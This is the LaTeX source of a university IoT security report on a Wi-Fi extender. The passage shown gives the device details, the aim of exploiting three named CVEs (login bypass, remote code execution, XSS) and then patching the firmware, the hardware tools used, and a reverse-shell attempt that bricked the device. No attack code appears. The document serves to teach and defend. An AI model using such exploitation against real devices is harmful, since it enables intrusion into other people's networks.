\documentclass[a4paper,12pt]{report}
\linespread{1.5}

\usepackage[utf8]{inputenc}
\usepackage{geometry}
\geometry{top=2cm,bottom=2.5cm,left=3.5cm,right=3.5cm}

\usepackage{mathptmx}
\usepackage{xcolor}
\usepackage{graphicx}
\usepackage{float}
\usepackage{subfig}
\usepackage{fancyhdr}
\usepackage{listings}
\usepackage{csquotes}
\usepackage{amsmath}
\usepackage{numprint}
\usepackage{tocbibind}
\usepackage{xurl}
\usepackage{hyperref}
\usepackage{acronym}

\lstnewenvironment{pythoncode}{
    \lstset{
        language=Python,
        basicstyle=\ttfamily\small,
        breaklines=true,
        showstringspaces=false
    }
}{}

\usepackage[
    backend=biber,
    style=numeric,
    sorting=none
]{biblatex}
\addbibresource{bibliografia.bib}

% --- Code block configuration ---
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstset{
    backgroundcolor=\color{backcolour},
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,
    breaklines=true,
    captionpos=b,
    keepspaces=true,
    numbers=left,
    numbersep=5pt,
    showspaces=false,
    showstringspaces=false,
    showtabs=false,
    tabsize=2,
    frame=single,
    rulecolor=\color{black!30}
}

\setlength{\parindent}{0cm}
\setcounter{tocdepth}{3}

\pagestyle{fancy}
\renewcommand{\headrulewidth}{0pt}
\fancyhf{}
\fancyhead[L]{}
\fancyfoot[C]{\thepage}

\graphicspath{{../imgs/}}
\setlength{\marginparwidth}{2cm}

\lstdefinelanguage{asm}{
  morekeywords={mov,add,sub,cmp,jmp,je,jne,call,ret,push,pop,int,lea},
  sensitive=true,
  morecomment=[l];,
  morestring=[b]"
}
\begin{document}

\begin{titlepage}
\begin{center}

% Logo
\vspace*{1cm}

\includegraphics[width=0.8\textwidth]{../imgs/0-logo.png}

\vfill

% Dipartimento e corso
{\large \textbf{Dipartimento di Ingegneria Informatica, Modellistica,\\
Elettronica e Sistemistica}}\\[6pt]
{\large Corso di Laurea Magistrale in Ingegneria Informatica}\\[6pt]
{\large Corso di IoT Security}

\vfill

% Titolo

{\Huge \textbf{Aigital Wi-Fi Extender Analysis}}\\[8pt]
{\Large IoT Security Report}


\vfill

\end{center}

% Relatore / Studente
\noindent
\begin{minipage}[t]{0.48\textwidth}
\large
\textbf{Professors}\\
Prof. Antonio Guerrieri\\
Prof. Michele Ianni\\
Prof. Claudia Greco
\end{minipage}
\hfill
\begin{minipage}[t]{0.48\textwidth}\raggedleft
\large
\textbf{Students}\\
\textbf{Curcio Salvatore}, 263696\\
\textbf{Rabbia Marco}, 269211 \\
\textbf{Voci Gregorio}, 263711

\end{minipage}

\vfill

%% Anno Accademico %%
    \centering{\large \uppercase{ A.Y. 2025/2026 }}

\end{titlepage}

\setcounter{page}{1}

\tableofcontents
\clearpage
\pagestyle{plain}

\chapter{Introduction}
\label{chap:introduction}

    In this report we will discuss our security analysis of a Wi-Fi extender produced by Aigital (Figure~\ref{fig:router}).
    
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.5\textwidth]{../imgs/1.1-extender.jpg}
        \caption{Aigital Wi-Fi Extender}
        \label{fig:router}
    \end{figure}

    \section{Device Informations}
        The Aigital Wi-Fi Extender is a device that allows to extend the coverage of a Wi-Fi network.
        \\
        It was bought in 2019 and is still available for purchase on Amazon\footnote{\url{https://amazon.it/dp/B0DR7ZT2CS}} and it is sold at a price of around 20 euros.
%        \begin{figure}[H]
%            \centering
%            
\includegraphics[width=1\textwidth]{../imgs/ordine.png}
%            \caption{Order details (sensible information redacted)}
%        \end{figure}
%        \newpage
        \\
        The device has a web interface for configuration and management, which is accessible through the local network on 192.168.10.253 (Figure~\ref{fig:web_interface}).
        
        \begin{figure}[H]
            \centering
            
\includegraphics[width=0.8\textwidth]{../imgs/1.2-web_page.jpeg}
            \caption{Web interface}
            \label{fig:web_interface}
        \end{figure}

    \section{Objectives}
        As we will see in the next sections, our main goal was to exploit the CVE-2023-30403\cite{CVE-2023-30403}, CVE-2023-30404\cite{CVE-2023-30404} and CVE-2023-30405\cite{CVE-2023-30405} vulnerabilities, which allow for login by-pass, remote code execution and cross-site scripting respectively. 
        \\
        We also wanted to analyze the firmware of the device, in order to find other potential vulnerabilities and to understand how the device works.
        \\
        Finally, we wanted to patch the CVEs compiling a custom firmware.
    \section{Tools Used}
        We used a variety of tools for our analysis, including:
        \begin{itemize}
            \item A digital multimeter for individuating the pins of the UART interface;
            \item A USB-to-TTL adapter for analyzing the UART communication;
            \item A CH341A programmer with a soic clip for dumping the EEPROM with flashrom;
            \item Binwalk for firmware analysis;
            \item Ghidra and Cutter for reverse engineering the firmware;
            \item A custom script for patching the firmware.
        \end{itemize}
        All of our codes are available on our GitHub repository\footnote{\url{https://github.com/Gory-git/progetto_IoT}}.
    \section{Issues Encountered}
        We feel it is important to note in advance that at a certain point in the project, we encountered some issues with the access point’s hardware that took up a significant amount of our time. 
        \\
        Specifically, while attempting to open a reverse shell on the device, we uploaded a binary to it whose size exceeded the available memory, causing the device to brick. To reflash the working binary, we desoldered the EEPROM. Unfortunately, we weren’t careful enough and broke a trace on the PCB, as shown in the Figure~\ref{fig:broken_trace}.  

        \begin{figure}[H]
            \centering
            
\includegraphics[width=0.8\textwidth]{../imgs/1.3-pista-rotta.jpeg}
            \caption{Broken trace}
            \label{fig:broken_trace}
        \end{figure}

        With the help of a friend of ours who is an electrical engineering student, we repaired the previously broken circuit trace and, to avoid further problems, installed a socket on the PCB so that the EEPROM can be easily inserted and removed for future testing (Figures~\ref{fig:rep1}, ~\ref{fig:rep2}, ~\ref{fig:rep3}).

        \begin{figure}[H]
            \centering
            
\includegraphics[width=0.8\textwidth]{../imgs/1.4-riparazione-1.jpeg}
            \caption{Reparation process 1}
            \label{fig:rep1}
        \end{figure}
        \begin{figure}[H]
            \centering
